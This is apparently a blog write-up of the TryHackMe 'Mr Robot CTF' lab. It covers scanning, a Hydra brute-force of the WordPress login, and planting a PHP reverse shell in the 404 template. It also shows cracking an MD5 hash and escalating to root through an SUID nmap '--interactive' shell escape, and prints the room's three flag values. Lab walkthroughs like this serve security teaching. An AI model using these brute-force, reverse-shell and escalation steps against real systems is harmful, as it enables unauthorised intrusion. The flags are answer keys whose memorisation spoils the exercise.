

## Intro
This time we're breaking a machine from the "Mr Robot CTF" room [over on TryHackMe](https://tryhackme.com/room/mrrobot). 

## Reconnaissance
The room itself on TryHackMe does not give much to go on, apart from the fact that the machine itself is inspired by the show [Mr. Robot](https://www.imdb.com/title/tt4158110/).

## Scanning & Discovery

### RustScan
I decided to use I've heard a bunch about - [RustScan](https://github.com/RustScan/RustScan). It pins down open ports much more efficiently, cutting down the amount of time needed for, say, a full port scan on a box.

For starters, let's go with an initial scan:
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.172.225:80
Open 10.10.172.225:443
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-09 21:24 UTC
Initiating Ping Scan at 21:24
Scanning 10.10.172.225 [2 ports]
Completed Ping Scan at 21:24, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 21:24
Completed Parallel DNS resolution of 1 host. at 21:24, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:24
Scanning 10.10.172.225 [2 ports]
Discovered open port 443/tcp on 10.10.172.225
Discovered open port 80/tcp on 10.10.172.225
Completed Connect Scan at 21:24, 0.05s elapsed (2 total ports)
Nmap scan report for 10.10.172.225
Host is up, received syn-ack (0.054s latency).
Scanned at 2022-02-09 21:24:42 UTC for 0s

PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

### whatweb
Whatweb did not tell me much, apart that the box is running on some version of Apache.
`http://10.10.111.68 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.111.68], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]`

### Browser
It seems we have a web server, both HTTP and HTTPS, let's check it out.

While the website itself is very elaborate for a pentesting machine, going along with the 'terminal' didn't really lead me anywhere productive.

There doesn't seem to be a difference functionality-wise whether I accessed it via HTTP or HTTPS. The self-signed SSL certificate file doesn't leak any subdomains.

`/sitemap.xml` doesn't give anything at all.

`/robots.txt` is very promising, however:


Sure enough, /key-1-of-3.txt leads us to the first key for this CTF: `073403c8a58a1f80d943455fb30724b9`


The `/fsocity.dic` seems to be a dictionary file of sorts, line seperated, one entry per line. Might prove useful later.

Skimming through the source code of the website clues me into that this is actually a Wordpress site, even though it doesn't look like it. Specifically, links to `wp-content` and `https://wordpress.org/`


### feroxbuster
Since we now know this is a WordPress site, we know it is a Content Management System (CMS). There should be a dashboard somewhere for content management, which coincidentally (especially on WordPress) often has opportunities for remote code execution (RCE).

Trying to simply go to `/admin` puts us into a redirect loop, not leading us anywhere.

Try to crack open the big guns and do a directory scan with [feroxbuster](https://github.com/epi052/feroxbuster). Similar to RustScan, this tool is also written in Rust. I like how it can scan a list of directories in parallel, making it faster. I used `directory_list-2.3-big` from [SecLists](https://github.com/danielmiessler/SecLists).

```
301      GET        7l       20w      234c http://10.10.172.225/blog => http://10.10.172.225/blog/
301      GET        7l       20w      236c http://10.10.172.225/images => http://10.10.172.225/images/
200      GET        0l        0w        0c http://10.10.172.225/sitemap
302      GET        0l        0w        0c http://10.10.172.225/login => http://10.10.172.225/wp-login.php
301      GET        0l        0w        0c http://10.10.172.225/rss => http://10.10.172.225/feed/
301      GET        0l        0w        0c http://10.10.172.225/images/rss => http://10.10.172.225/images/feed/
301      GET        0l        0w        0c http://10.10.172.225/blog/rss => http://10.10.172.225/blog/feed/
301      GET        7l       20w      235c http://10.10.172.225/video => http://10.10.172.225/video/
301      GET        0l        0w        0c http://10.10.172.225/0 => http://10.10.172.225/0/
301      GET        0l        0w        0c http://10.10.172.225/feed => http://10.10.172.225/feed/
301      GET        0l        0w        0c http://10.10.172.225/image => http://10.10.172.225/image/
301      GET        0l        0w        0c http://10.10.172.225/atom => http://10.10.172.225/feed/atom/
301      GET        0l        0w        0c http://10.10.172.225/images/feed => http://10.10.172.225/images/feed/
301      GET        0l        0w        0c http://10.10.172.225/blog/feed => http://10.10.172.225/blog/feed/
301      GET        0l        0w        0c http://10.10.172.225/video/rss => http://10.10.172.225/video/feed/
301      GET        7l       20w      240c http://10.10.172.225/wp-content => http://10.10.172.225/wp-content/
301      GET        7l       20w      235c http://10.10.172.225/admin => http://10.10.172.225/admin/
301      GET        0l        0w        0c http://10.10.172.225/images/atom => http://10.10.172.225/images/feed/atom/
301      GET        0l        0w        0c http://10.10.172.225/blog/atom => http://10.10.172.225/blog/feed/atom/
301      GET        0l        0w        0c http://10.10.172.225/0/rss => http://10.10.172.225/0/feed/
301      GET        0l        0w        0c http://10.10.172.225/feed/rss => http://10.10.172.225/feed/
200      GET       30l       98w     1188c http://10.10.172.225/admin/index
301      GET        7l       20w      242c http://10.10.172.225/admin/images => http://10.10.172.225/admin/images/
301      GET        7l       20w      235c http://10.10.172.225/audio => http://10.10.172.225/audio/
200      GET     2028l    11941w   516314c http://10.10.172.225/intro
301      GET        7l       20w      248c http://10.10.172.225/wp-content/uploads => http://10.10.172.225/wp-content/uploads/
301      GET        7l       20w      246c http://10.10.172.225/images/headlines => http://10.10.172.225/images/headlines/
```

We get back a lot of directories. The one that stands out to me the most is http://10.10.172.225/wp-login.php, let's check it out.

### Browser: /wp-login.php (1/2)

Here we get a nice, typical WordPress login page. I will admit I was stuck here for a long time, not knowing how to proceed. the `readme.html` file doesn't leak any info about the WordPress version.


Trying to attack the form itself via sqlmap was also unsuccessful.

### WPScan

```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.111.68/wp-login.php/ [10.10.111.68]
[+] Started: Thu Feb 10 00:45:08 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Powered-By: PHP/5.5.29
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://10.10.111.68/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://10.10.111.68/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Query Parameter In Install Page (Aggressive Detection)
 |  - http://10.10.111.68/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://10.10.111.68/wp-includes/css/dashicons.min.css?ver=4.3.1
 | Confirmed By: Query Parameter In Upgrade Page (Aggressive Detection)
 |  - http://10.10.111.68/wp-includes/css/buttons.min.css?ver=4.3.1
 |  - http://10.10.111.68/wp-includes/css/dashicons.min.css?ver=4.3.1
 |
 | [!] 86 vulnerabilities identified:
 | ...
 | ...
 | ...
[i] The main theme could not be detected.


[i] No plugins Found.


[i] No Config Backups Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 1
 | Requests Remaining: 24

[+] Finished: Thu Feb 10 00:45:15 2022
[+] Requests Done: 142
[+] Cached Requests: 184
[+] Data Sent: 38.716 KB
[+] Data Received: 108.936 KB
[+] Memory used: 195.27 MB
[+] Elapsed time: 00:00:07
```
`[!] 86 vulnerabilities identified`

Now that is a lot. Unfortunately, many required authentication, which we didn't have (yet). Many were focused on XSS, which also isn't super useful for this CTF format. The ones that focused on RCE depended on plugins that this site did not have.

Maybe I was thinking about this too hard.

### Browser: /wp-login.php (2/2)

It's time to come back to the `fsocity.dic` file, given it does look as a possible username & password list. However, given the 7MB size and 858160 entries in this file, trying to both find a viable username AND the password for it would have taken forever.

I did more research about the show (Mr. Robot) the box is based on. I tried out several usernames. Fortunately, WordPress leaks viable usernames, by giving a different prompt if the username exists. `Elliot` is one of them.


Now that we have a possible username, let's try to determine the password.

### Hydra

With username and wordlist in hand, let's start up Hydra and try to figure out the password:
```
hydra -l Elliot -P ../downloads/fsocity.dic 10.10.111.68 -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.111.68%2Fwp-admin%2F&testcookie=1:S=Location
```

Eventually, we get a hit. Time to login.
```
[80][http-post-form] host: 10.10.111.68   login: Elliot   password: ER28-0652
```
## Exploitation

### Browser: /wp-login.php (Admin dashboard)
Upon logging in we are greeted with a dashboard.


The plugins section had a bunch of plugins, but none seemed to have exploitation opportunities. Fortunately, going to `Appearance -> Editor` allows us to edit various page templates. This is a great place to insert some malicious code and possibly get a reverse shell. I hopped onto [RevShells](https://www.revshells.com/) and grabbed a PHP reverse shell script. I inserted it into the "404 Template", as it seemed to easiest to exploit.


Let's save it and try to provoke a 404 response.


I set-up my netcat listener and went to a gibberish URL hoping the 404 template would kick in and with it, the reverse shell script.


And it worked!

## Privilege Escalation

### Horizontal Escalation (robot)
Unfortunately, we don't seem to have a lot of permissions to pretty much anything with this user. Let's snoop around the `/home` directory.


Here we found a password hash the second key, to which we don't have access (yet). The `raw-md5` clues us in that this hash is MD5. Let's check [CrackStation](https://crackstation.net/), maybe it has already been cracked in the past.


Fortunately, CrackStation already had an exact match for this hash. We can now login to the `robot` user with the password `abcdefghijklmnopqrstuvwxyz`.


I had issues getting `su` to work, so I just spawned a shell with Python and that got it working.

`robot` access allowed me to read the `key-2-of-3.txt` file that I wasn't able to previously -> `822c73956184f694993bede3eb39f959`

### Vertical escalation (root)
It was now time for the final obstacle: the root user.

#### SUID Binaries
I scanned the system for unusual SUID binaries, this is one of the first areas I look for when trying to obtain privilege escalation, as it is one of the easiest and least time consuming to exploit. I prefer to use this one-liner:

```
find / -perm -u=s -type f 2>/dev/null
```


Among the results was an nmap binary, in `/usr/local/`, of all places. I checked out [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid) section regarding nmap.


Attempting to exploit this misconfiguration proved challenging. However, upon fiddling with the binary, I noticed it was `nmap v.3.81` - a very old one, dating way way back to ***2005***. 


Upon closer inspection, this version seemed to be vulnerable to the SUDO exploit mentioned in scenario B of the aforementioned GTFOBins section.

It was time to test this out.

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```

And just like that, we now both have root access and the last key: `04787ddef27c3dee1ee161b21670b4e4`.

## Outro
Overall, this boxed prove to be pretty balanced difficulty-wise. I mostly have one critique - the over-reliance on the massive dictionary file. The box doesn't handle many connections well, so the password cracking took a considerable amount of time. If I had to enumerate usernames with this wordlist as well, it would have taken even longer.

I would have also liked the front-facing side of the website to lead somewhere, rather than just working as a front/cover. I think using the `robots.txt` file as a callback to the show was somewhat clever.

It was nice to try out a couple of Rust written tools this time.